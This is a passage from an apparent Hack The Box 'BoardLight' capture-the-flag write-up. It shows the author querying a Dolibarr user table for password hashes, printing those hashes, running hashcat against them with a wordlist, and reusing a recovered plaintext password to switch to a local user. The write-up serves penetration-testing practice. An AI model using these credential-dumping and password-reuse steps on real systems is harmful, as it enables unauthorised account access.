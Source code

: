 There are many columns in this table, but the important ones are obviously going to be `login` and `pass_crypted`

```sql
SELECT login,pass_crypted FROM llx_user;
```

![SQL User & Password](/assets/images/HTB%20-%20BoardLight/Login%20&%20passwords.png)

We have two users & two hashed passwords

| login    | pass_crypted                                                                 |
|----------|------------------------------------------------------------------------------|
| dolibarr | $2y$10$VevoimSke5Cd1/nX1Ql9Su6RstkTRe7UX1Or.cm8bZo56NjCMJzCm               |
| admin    | $2y$10$gIEKOl7VZnr5KLbBDzGbL.YuJxwz5Sdl5ji3SEuiUSlULgAhhjH96               |

The prefix `$2y$` typically indicates [bcrypt](https://en.wikipedia.org/wiki/Bcrypt) which has a hashcat moudle of `3200`

Since we already logged in with the user `admin` earlier. I am only going to crack the hash that belongs to dolibarr

```bash
hashcat -m 3200 -a 0 '$2y$10$VevoimSke5Cd1/nX1Ql9Su6RstkTRe7UX1Or.cm8bZo56NjCMJzCm' /usr/share/wordlists/rockyou.txt
```

Mistakes were made, I wasn't able to crack this hash but I'm willing to bet it is the password from earlier `serverfun2$2023!!`

There is one non-standard user in /etc/passwd and that's `larissa`. I am going to try to switch to that user and use the password from earlier serverfun2$2023!!

```bash
su larissa
```

![Larissa](/assets/images/HTB%20-%20BoardLight/Larissa.png)

And boom, we have user. Let's do some enumeration on this user

Let's find sudo permissions with `sudo -l`

`"User may not run sudo"`
